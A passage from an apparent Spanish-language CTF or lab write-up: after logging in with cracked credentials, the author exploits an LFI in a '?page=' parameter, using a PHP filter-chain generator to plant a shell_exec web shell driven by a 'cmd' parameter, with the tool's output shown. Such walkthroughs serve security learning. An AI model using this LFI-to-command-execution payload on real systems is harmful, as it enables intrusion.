 Vemos que el que nos interesa es la contraseña `j.castro` es el que coincide con el `hash`.

Por lo que ahora iniciaremos sesion con las credenciales que encontramos:

```
User: jessica
Pass: j.castro
```

Y vemos que estaremos dentro logeados con dicho usuario:

<figure><img src="../../.gitbook/assets/image (170) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que si le damos alguna de las opciones que esta en el `header` en la `URL` lleva un parametro llamado `?page=` vamos a ver si se puede utilizar algun `Wrapper` de `LFI` para poder hacer un parametro `cmd=` y asi poder ejecutar comandos del sistema.

### Wrappers de LFI

URL\_Script = https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit/blob/main/filters\_chain\_oracle\_exploit.py

Si queremos por ejemplo crear un parametro llamado `cmd` que ejecute cualquier comando que le pongamos, seria de la siguiente forma...

```shell
$ python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
```

Info:

```
[+] The following gadget chain will generate the following code : <?php echo shell_exec($_GET["cmd"]);?> (base64 value: PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWyJjbWQiXSk7Pz4)
```